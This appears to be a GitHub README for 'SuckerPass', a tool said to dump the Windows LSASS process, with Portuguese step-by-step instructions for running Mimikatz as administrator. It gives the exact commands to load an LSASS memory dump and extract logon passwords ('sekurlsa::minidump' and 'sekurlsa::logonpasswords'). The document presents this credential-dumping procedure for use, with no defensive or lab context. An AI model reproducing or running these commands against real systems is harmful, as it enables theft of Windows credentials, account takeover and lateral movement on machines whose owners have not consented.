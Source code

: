 # SuckerPass
SuckerPass is a tool that dumps the LSASS process on Windows.

![SuckerPass Logo](img/Sucker.PNG)

## Instruções para Usar Mimikatz

1. **Download do Mimikatz:**
   - Faça o download da última versão do Mimikatz [aqui](https://github.com/gentilkiwi/mimikatz/releases).

2. **Executar o Mimikatz como Administrador:**
   - Abra um terminal ou prompt de comando como administrador.

3. **Executar os Seguintes Comandos:**
   - Navegue até o diretório onde o Mimikatz foi baixado.
   - Execute o Mimikatz como administrador.
     ```bash
     cd caminho\para\o\diretorio\do\mimikatz
     .\mimikatz.exe
     ```

   - Dentro do Mimikatz, use os comandos apropriados para suas necessidades. Por exemplo:
     ```plaintext
     mimikatz # sekurlsa::minidump c:\temp\lsass.dmp
     mimikatz # sekurlsa::logonpasswords
     ```
